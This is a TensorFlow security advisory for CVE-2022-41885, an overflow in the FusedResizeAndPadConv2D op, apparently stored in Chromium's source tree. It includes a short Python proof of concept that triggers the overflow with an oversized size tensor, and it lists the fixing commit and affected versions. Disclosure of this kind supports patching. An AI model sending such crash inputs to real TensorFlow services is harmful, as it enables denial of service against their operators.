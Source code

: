URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-147.md
## TFSA-2022-147: Overflow in `FusedResizeAndPadConv2D`

### CVE Number
CVE-2022-41885

### Impact
When [`tf.raw_ops.FusedResizeAndPadConv2D`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/conv_ops_fused_image_transform.cc) is given a large tensor shape, it overflows.
```python
import tensorflow as tf

mode = "REFLECT"
strides = [1, 1, 1, 1]
padding = "SAME"
resize_align_corners = False
input = tf.constant(147, shape=[3,3,1,1], dtype=tf.float16)
size = tf.constant([1879048192,1879048192], shape=[2], dtype=tf.int32)
paddings = tf.constant([3,4], shape=[2], dtype=tf.int32)
filter = tf.constant(123, shape=[1,3,4,1], dtype=tf.float16)
tf.raw_ops.FusedResizeAndPadConv2D(input=input, size=size, paddings=paddings, filter=filter, mode=mode, strides=strides, padding=padding, resize_align_corners=resize_align_corners)
```

### Patches
We have patched the issue in GitHub commit [d66e1d568275e6a2947de97dca7a102a211e01ce](https://github.com/tensorflow/tensorflow/commit/d66e1d568275e6a2947de97dca7a102a211e01ce).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou from the Secure Systems Lab (SSL) at Brown University.
